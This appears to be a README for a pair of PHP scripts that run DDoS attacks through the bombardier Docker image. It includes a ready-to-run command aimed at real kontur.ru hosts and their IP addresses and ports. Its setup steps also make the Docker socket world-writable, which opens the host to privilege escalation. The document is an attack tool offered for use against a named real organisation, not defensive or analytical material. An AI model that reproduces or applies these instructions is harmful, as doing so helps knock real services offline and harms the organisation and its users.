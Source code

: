 There are two scripts: bomb.php and action.php

bomb.php is parsing addresses, IPs and ports from arguments of bomb.php as script from linux terminal which executing.
After parsing bomb.php sets docker command using docker-image alpine/bombardier. You can set number of requests and time
for each ddos-attack there.
Also, bomb.php is executing till there are enough memory and targets.

action.php sets up bomb.php as background process. That means you can just start command like this one:

php action.php "https://kontur.ru
46.17.203.102 (80/tcp, 443/tcp)
https://auth.kontur.ru
46.17.206.15 (80/tcp, 443/tcp)
https://ofd.kontur.ru
46.17.204.250 (443/tcp, 8080/tcp, 8081/tcp)"

and bomb.php in background is parsing targets and starting docker commands for ddos-attack

not forget!
sudo chown -R www-data:www-data /var/www
chmod 666 /var/run/docker.sock